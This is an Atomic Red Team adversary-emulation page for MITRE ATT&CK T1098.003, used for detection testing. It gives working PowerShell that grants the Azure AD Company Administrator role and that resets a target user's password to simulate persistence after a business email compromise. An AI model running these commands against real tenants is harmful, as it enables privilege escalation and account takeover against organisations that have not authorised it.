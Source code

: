# T1098.003 - Account Manipulation: Additional Cloud Roles
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/003)
<blockquote>An adversary may add additional roles or permissions to an adversary-controlled cloud account to maintain persistent access to a tenant. For example, adversaries may update IAM policies in cloud-based environments or add a new global administrator in Office 365 environments.(Citation: AWS IAM Policies and Permissions)(Citation: Google Cloud IAM Policies)(Citation: Microsoft Support O365 Add Another Admin, October 2019)(Citation: Microsoft O365 Admin Roles) With sufficient permissions, a compromised account can gain almost unlimited access to data and settings (including the ability to reset the passwords of other admins).(Citation: Expel AWS Attacker)
(Citation: Microsoft O365 Admin Roles) 

This account modification may immediately follow [Create Account](https://attack.mitre.org/techniques/T1136) or other malicious account activity. Adversaries may also modify existing [Valid Accounts](https://attack.mitre.org/techniques/T1078) that they have compromised. This could lead to privilege escalation, particularly if the roles added allow for lateral movement to additional accounts.

For example, in AWS environments, an adversary with appropriate permissions may be able to use the <code>CreatePolicyVersion</code> API to define a new version of an IAM policy or the <code>AttachUserPolicy</code> API to attach an IAM policy with additional or distinct permissions to a compromised user account.(Citation: Rhino Security Labs AWS Privilege Escalation)

In some cases, adversaries may add roles to adversary-controlled accounts outside the victim cloud tenant. This allows these external accounts to perform actions inside the victim tenant without requiring the adversary to [Create Account](https://attack.mitre.org/techniques/T1136) or modify a victim-owned account.(Citation: Invictus IR DangerDev 2024)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure AD - Add Company Administrator Role to a user](#atomic-test-1---azure-ad---add-company-administrator-role-to-a-user)

- [Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role](#atomic-test-2---simulate---post-bec-persistence-via-user-password-reset-followed-by-user-added-to-company-administrator-role)


<br/>

## Atomic Test #1 - Azure AD - Add Company Administrator Role to a user
Add an existing Azure user account the Company Administrator Role.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 4d77f913-56f5-4a14-b4b1-bf7bb24298ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| target_user | Name of the user who will be assigned the Company Admin role | string | default|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name MSOnline -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Force
```




<br/>
<br/>

## Atomic Test #2 - Simulate - Post BEC persistence via user password reset followed by user added to company administrator role
This test looks at simulating the an adversary described in the following blog post. It involves resetting the password of a normal user and adding to the company administrator role within M365.
 Reference: https://www.huntress.com/blog/business-email-compromise-via-azure-administrative-privileges

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 14f3af20-61f1-45b8-ad31-4637815f3f44





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| auth_username | Azure AD username used to conduct the adversary activity | string | jonh@contoso.com|
| auth_password | Azure AD password for user auth_username | string | p4sswd|
| target_user | Name of the user whose password be reset and added to the admin role. | string | default|
| target_password | The password that the user target_user will be reset to. | string | Ohn05GeMe#$|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module MSOnline
Import-Module AzureAD
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
$targetsecurepw = ConvertTo-SecureString -String "#{target_password}" -AsPlainText -Force
Connect-MsolService -Credential $credential -ErrorAction:SilentlyContinue
Connect-AzureAD -Credential $credential -ErrorAction:SilentlyContinue

#Saving the ObjectId of the target_user into a variable
$target_objid = Get-AzureADUser -filter "userPrincipalName eq '#{target_user}'" | Select-Object -ExpandProperty ObjectId

#Reset the password of the target_user
Set-AzureADUserPassword -ObjectId  $target_objid -Password $targetsecurepw -ErrorAction:SilentlyContinue

#Adding target_user
Add-MsolRoleMember -RoleName "Company Administrator" -RoleMemberEmailAddress "#{target_user}"
Add-MsolRoleMember -RoleName "Global Reader" -RoleMemberEmailAddress "#{target_user}"
```

#### Cleanup Commands:
```powershell
Import-Module MSOnline
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-MsolService -Credential $credential
Remove-MsolRoleMember -RoleName "Company Administrator" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
Remove-MsolRoleMember -RoleName "Global Reader" -RoleMemberType User -RoleMemberEmailAddress "#{target_user}"
```



#### Dependencies:  Run with `powershell`!
##### Description: MSOnline and AzureAD modules must be installed.
##### Check Prereq Commands:
```powershell
$required_mods = 'AzureAD', 'MSOnline'
$installed_mods = @((Get-Module $required_mods -ListAvailable -ErrorAction SilentlyContinue).Name  | Select-Object -Unique)
$notInstalled = Compare-Object $required_mods $installed_mods -PassThru -ErrorAction SilentlyContinue

if ($notInstalled) {
# Prompt for installing the missing ones.
Write-Output "The following PS modules aren't currently installed:"
$notInstalled
  exit 1
}

 else{
  Write-Output "All required PS modules are installed"
  exit 0
 }
```
##### Get Prereq Commands:
```powershell
Install-Module -Name MSOnline -Scope CurrentUser -Force
Install-Module -Name AzureAD -Scope CurrentUser -Force
```




<br/>

